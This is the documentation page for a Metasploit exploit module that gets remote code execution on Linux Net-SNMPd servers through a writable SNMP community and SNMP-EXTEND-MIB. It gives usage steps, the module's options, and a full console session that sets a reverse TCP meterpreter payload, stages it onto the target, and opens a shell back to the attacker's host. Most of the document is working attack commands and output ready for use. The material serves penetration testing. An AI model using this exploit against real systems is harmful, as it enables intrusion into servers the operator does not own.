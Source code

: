 ## Vulnerable Application

  This module uses SNMP extension MIBs to enable remote code execution on the Linux Net-SNMPD servers using the 
  SNMP-EXTEND-MIB.

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/net_snmpd_rw_access`
  3. Do: `set rhost [IP]`
  4. Do: `set community [SNMP Community]`
  5. Do: `set version [SNMP Version]`
  6. Configure the payload
  7. Do: `run`
  8. You should get a session

## Options
  **FILEPATH**  
  The location to write the executable out to on the target. Needs to be writable by the SNMP service user. This defaults to /tmp.  
  
  **COMMUNITY**  
  The read/write community string of the target Net-SNMP service.
  
  **VERSION**  
  The SNMP protocol version. Accepted values are '1' or '2c'. 
  
  **CHUNKSIZE**  
  The maximum amount of payload bytes to write in a single operation. This value was found through experimentation and may not be suitable in all environments, but should hopefully work for all cmdstager flavors  
  Note that cmdstager payloads are modified to allow further escaping, so the values limits may also change between cmdstager flavors.  
  This is possibly related to the following bug: [https://sourceforge.net/p/net-snmp/bugs/2542/].
  
  **TIMEOUT**  
  Specifies the maximum time to allow SNMP to timeout.  
  
  **SHELL**  
  The shell to call for the client. Defaults to '/bin/bash'  


  
## Scenario

  ```
  msf > use exploit/linux/snmp/net_snmpd_rw_access 
  msf exploit(linux/snmp/net_snmpd_rw_access) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/snmp/net_snmpd_rw_access) > set rhost 192.168.1.3
  rhost => 192.168.1.3
  msf exploit(linux/snmp/net_snmpd_rw_access) > set lhost 192.168.1.2
  lhost => 192.168.1.2
  msf exploit(linux/snmp/net_snmpd_rw_access) > set community private
  community => private
  msf exploit(linux/snmp/net_snmpd_rw_access) > set version 2c
  version => 2c

  msf exploit(linux/snmp/net_snmpd_rw_access) > show info
  
         Name: Net-SNMPd Write Access SNMP-EXTEND-MIB arbitrary code execution
       Module: exploit/linux/snmp/net_snmpd_rw_access
     Platform: 
         Arch: 
   Privileged: No
      License: Metasploit Framework License (BSD)
         Rank: Normal

  Provided by:
    Steve Embling at InteliSecure

  Available targets:
    Id  Name
    --  ----
    0   Linux x86

  Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    CHUNKSIZE  200              yes       Maximum bytes of payload to write at once 
    COMMUNITY  private          yes       SNMP Community String
    FILEPATH   /tmp             yes       file path to write to 
    RETRIES    1                yes       SNMP Retries
    RHOST      192.168.1.3      yes       The target address
    RPORT      161              yes       The target port (TCP)
    SHELL      /bin/bash        yes       Shell to call with -c argument
    SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
    SRVPORT    8080             yes       The local port to listen on.
    SSL        false            no        Negotiate SSL for incoming connections
    SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
    TIMEOUT    1                yes       SNMP Timeout
    URIPATH                     no        The URI to use for this exploit (default is random)
    VERSION    2c               yes       SNMP Version <1/2c> 

  Payload information:
    Space: 4096

  Description:
    This exploit module exploits the SNMP write access configuration 
    ability of SNMP-EXTEND-MIB to configure MIB extensions and lead to 
    remote code execution.

  References:
    https://www.intelisecure.com

  msf exploit(linux/snmp/net_snmpd_rw_access) > run
  
  [*] Started reverse TCP handler on 192.168.1.2:4444 
  [*] Command Stager progress -   1.11% done (199/17924 bytes)
  [*] Command Stager progress -   2.23% done (399/17924 bytes)
  [*] Command Stager progress -   3.34% done (598/17924 bytes)
  [*] Command Stager progress -   4.45% done (797/17924 bytes)
  ... Redacted ...
  [*] Command Stager progress -  98.64% done (17681/17924 bytes)
  [*] Command Stager progress -  99.72% done (17873/17924 bytes)
  [*] Sending stage (857352 bytes) to 192.168.1.3
  [*] Meterpreter session 31 opened (192.168.1.2:4444 -> 192.168.1.3:54232) at 2018-02-14 17:30:22 +0000
  [+] SNMP request timeout (this is promising).
  [*] Command Stager progress - 100.00% done (18022/18022 bytes)

  
  meterpreter > getuid
  Server username: uid=121, gid=129, euid=121, egid=129
  meterpreter > exit
  [*] 192.168.1.3 - Meterpreter session 30 closed.  Reason: User exit

  ```
